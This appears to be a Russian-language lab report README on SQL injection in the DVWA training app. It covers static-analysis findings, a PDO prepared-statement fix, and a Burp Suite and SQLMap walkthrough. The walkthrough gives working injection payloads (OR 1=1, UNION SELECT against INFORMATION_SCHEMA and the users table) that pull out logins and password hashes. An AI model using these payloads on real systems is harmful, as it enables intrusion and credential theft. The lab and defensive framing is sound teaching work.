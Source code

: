 # Использование статического анализатора кода для обеспечения безопасности

## Обнаружен участок кода, подверженный инъекции SQL кода:

```php
$getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid );
```
## Результат анализа статическим анализатором кода:

![image](https://github.com/halissha/rbpzos4_static/blob/main/img.png)

## Основные проблемы:
### Пользовательские данные подставляются в запрос без плейсхолдеров или экранирования

```
[MITRE, CWE-89] - Improper Neutralization of Special Elements used in an SQL Command
```

### Пользовательские данные не проходят проверку перед выполнением запроса

```
[MITRE, CWE-20] - Improper Input Validation
```

Вследствие игнорирования требований безопасности мошенник может сконструировать вредоносный запрос в базу данных.
Это может быть чревато потерей, модификацией, утечкой данных, или получением мошенником доступа к оболочке.

## Устранение угроз безопасности:

- Воспользуемся PDO для конструирования параметризованного запроса (PDO - расширение для PHP, предоставляющее разработчику универсальный интерфейс для доступа к различным базам данных.)

```php
 $statement = $pdo->prepare('SELECT first_name, last_name FROM users WHERE user_id = :id;');
 $statement->bindParam("id", $id, PDO::PARAM_INT);
 $statement->execute();
```

- Обеспечим дополнительную валидацию переменной "id" по типу и длине

```php
 if (strlen((string)$id) == 3) {
    ...
}
```
## Запахи кода:
### Файл должен содержать пустую строку в конце

Некоторые инструменты работают лучше когда файл содержит пустую строку в конце

### Убрать закрывающий тег ?> в конце файла

Согласно стандарту PSR2 закрывающий тег не требуется использовать в файле, содержащем только php-код

### Убрать пустое место после открывающей скобки и перед закрывающей скобкой

Общий принцип следование стандартам оформления кода позволяет командной разработке быть эффективнее, а коду быть более читаемым

## Результат повышения безопасности формы:

![image](https://github.com/halissha/rbpzos4_static/blob/main/image.png)

## Использование Burp Suite для нахождения уязвимости
Настроим прослушивание прокси в Burp Suite для возможности перехвата запросов:
![image](https://github.com/halissha/rbpzos4_static/blob/main/proxy.jpg)

Аналогично настроим прокси в ручном режиме в браузере:
![image](https://github.com/halissha/rbpzos4_static/blob/main/proxy_browser.jpg)

## Перехват запросов с DVWA SQL Injection
Попробуем перехватить запрос с атакуемой страницы с помощью Interception:
![image](https://github.com/halissha/rbpzos4_static/blob/main/intercept.jpg)

## Обнаружение уязвимости с помощью Burp Suite
Проведем следующую инъекцию и получим всех пользователей, с помощью OR легко проходим валидацию:
```php
1 OR 1=1#
1+OR+1%3d1%23
```
Получим всех пользователей в ответе:

![image](https://github.com/halissha/rbpzos4_static/blob/main/users.jpg)

Теперь проведем инъекцию на обнаружение имен таблиц:
```php
1 UNION SELECT 1, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES#
1+UNION+SELECT+1,TABLE_NAME+FROM+INFORMATION.SCHEMA.TABLES%23
```
Получим имена всех таблиц, в ответе можно заметить важную таблицу users:
![image](https://github.com/halissha/rbpzos4_static/blob/main/user_table.jpg)

Следующим шагом попробуем вытащить логины и пароли из таблицы users с помощью следующей инъекции:
```php
1 UNION SELECT user, password FROM users#
1+UNION+SELECT+user,+password+FROM+users%23
```
В отвече получим логины и пароли пользователей системы:
![image](https://github.com/halissha/rbpzos4_static/blob/main/logins_passwords.jpg)

## Обнаружение уязвимости с помощью SQLMap

Воспользуемся утилитой SQLMap для выявления уязвимых параметров запроса. Утилита выявила уязвимости с типами:
```php
boolean-based blind
time-based blind
```
![image](https://github.com/halissha/rbpzos4_static/blob/main/table_vulns.jpg)

Далее при помощи утилиты получим список имеющихся баз данных:
![image](https://github.com/halissha/rbpzos4_static/blob/main/dbases.jpg)

Нашли базу данных dvwa, просмотрим ее таблицы:
![image](https://github.com/halissha/rbpzos4_static/blob/main/tables.jpg)

Нашли таблицу users, просмотрим её колонки:
![image](https://github.com/halissha/rbpzos4_static/blob/main/cols.jpg)

Удалось с помощью утилиты sqlmap определить пароли пользователей по имеющимся в таблице хешам:
![image](https://github.com/halissha/rbpzos4_static/blob/main/pass.jpg)











